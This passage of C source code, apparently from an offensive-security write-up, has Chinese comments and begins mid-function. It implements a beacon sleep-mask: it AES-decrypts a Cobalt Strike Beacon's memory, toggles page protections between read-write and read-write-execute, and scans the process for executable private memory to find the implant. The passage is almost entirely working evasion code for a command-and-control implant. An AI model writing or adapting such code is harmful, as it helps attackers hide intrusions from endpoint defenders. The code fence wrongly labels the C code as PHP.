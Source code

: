 ```php
    VirtualProtect(Beacon.address, Beacon.size, PAGE\_READWRITE, &oldProt);  
    printf("Beacon已加密并将内存页属性调整为 RW.\\n");  
}  
​  
void My\_Decrypt()  
{  
    // 定位到真正的 Beacon 内存页  
    MemoryAttrib Beacon \= memoryInfo.memoryPage\[memoryInfo.index \- 1\];  
    DWORD bufSize \= Beacon.size;  
    unsigned char\* buffer \= (unsigned char\*)(Beacon.address);  
    int bufSizeRounded \= (bufSize \- (bufSize % sizeof(unsigned int)));  
    //int bufsize = bufSize % sizeof(unsigned int);  
​  
    // 对 Beacon 进行加密或解密  
    //for (int i = 0; i < bufSizeRounded; i++)  
    //{  
    //  buffer\[i\] ^= memoryInfo.key;    // 简单的异或加解密  
    //}  
    AESDecode(buffer, bufSizeRounded);  
    //AESDecode(buffer,bufsize);  
​  
    DWORD oldProt;  
​  
​  
        // 将内存页设置为可读可写可执行  
    VirtualProtect(Beacon.address, Beacon.size, PAGE\_EXECUTE\_READWRITE, &oldProt);  
    printf("Beacon已解密并内存页属性调整为 RWX.\\n");  
}  
​  

/\*  
    内存扫描  
\*/  
​  
void ScanMemoryMap()  
{  
    // 内存块信息结构体  
    MEMORY\_BASIC\_INFORMATION mbi;  
​  
    LPVOID lpAddress \= 0;  
    HANDLE hProcess \= OpenProcess(MAXIMUM\_ALLOWED, FALSE, GetCurrentProcessId());  
​  
    int\* index \= &memoryInfo.index;  
​  
    while (VirtualQueryEx(hProcess, lpAddress, &mbi, sizeof(mbi)))  
    {  
        // 查找可读可写可执行内存页  
        if (mbi.Protect \== PAGE\_EXECUTE\_READWRITE || mbi.Protect \== PAGE\_EXECUTE && mbi.Type \== MEM\_PRIVATE)  
        {  
​  
            // 保存内存信息  
            memoryInfo.memoryPage\[\*index\].address \= mbi.BaseAddress;  
            memoryInfo.memoryPage\[\*index\].size \= (DWORD)mbi.RegionSize;  
            printf("BaseAddr = %p\\n", memoryInfo.memoryPage\[\*index\].address);  
            (\*index)++;  
​  
            if ((\*index) \>= 3)  
                break;  
        }  
        // 更新到下一个内存页  
        lpAddress \= (LPVOID)((DWORD\_PTR)mbi.BaseAddress + mbi.RegionSize);  
    }  
```